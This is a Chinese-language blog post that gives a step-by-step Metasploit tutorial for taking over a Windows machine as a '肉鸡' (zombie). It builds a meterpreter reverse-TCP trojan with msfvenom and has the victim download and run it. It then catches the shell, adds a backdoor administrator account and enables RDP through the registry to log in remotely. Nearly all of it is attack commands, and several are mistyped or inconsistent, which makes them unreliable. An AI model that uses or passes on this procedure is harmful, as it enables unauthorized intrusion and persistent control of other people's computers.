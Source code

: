 ```yaml
---
layout:     post
title:      MSF 简单使用
subtitle:   linux下利用Metasploit远程肉鸡
date:       2019-3-19
author:     张云
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```


> 走先人的路，后人少走路。

# 前言 
因 MSF 是kali自带，依赖于postgresql数据库，所以得先启动这个数据库。
命令：/etc/init.d/postgresql start
![](https://s2.ax1x.com/2019/03/19/AuuODe.png)
1.kali 终端运行 msfconsole
![](https://s2.ax1x.com/2019/03/19/Auu736.png)
2.用MSF下的msfvenom来生成木马程序到根目录。
命令：msfenom -p /windows/meterpreter/preverse_tcp lhost=“这里写你的本机ip” lport=“这里写你的端口，注意！不要和已经开启的端口冲突。” -f exe >/muma.exe
![](https://s2.ax1x.com/2019/03/19/AuuT9x.png)
3.开启一个简易web服务器。
命令：python SimpleHTTPServer 80
![](https://s2.ax1x.com/2019/03/19/AuubjO.png)

4.用目标机的浏览器访问下载木马程序。
![](https://s2.ax1x.com/2019/03/19/AuuXHH.png)

5.加载 exp。
命令：use  exploit/multi/handler

6.设置我们的payload。
命令：set /windows/meterpreter/preverse_tcp
     
![](https://s2.ax1x.com/2019/03/19/AuKCgf.png)

7.查看我们的设置。
命令：show options
![](https://s2.ax1x.com/2019/03/19/AuKkDg.png)

8.开启监听。
命令：run
![](https://s2.ax1x.com/2019/03/19/AuKFKS.png)

9.目标机器下载并点击我们的木马文件。
![](https://s2.ax1x.com/2019/03/19/AuK98P.png)

10.得到meterpreter，shell到目标的终端。
命令：shell
![](https://s2.ax1x.com/2019/03/19/Au1MFJ.md.png)

11.添加一个用户。
net user zy  123.com /add
12.把创建的用户加入到管理员组。
net localgroup administrators hacker /add
![](https://s2.ax1x.com/2019/03/19/Au1meU.md.png)

13.打开目标3389端口。
命令：REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

14![]().kali 运行链接远程桌面的工具。
rdesktop “目标的ip”

15.完成。
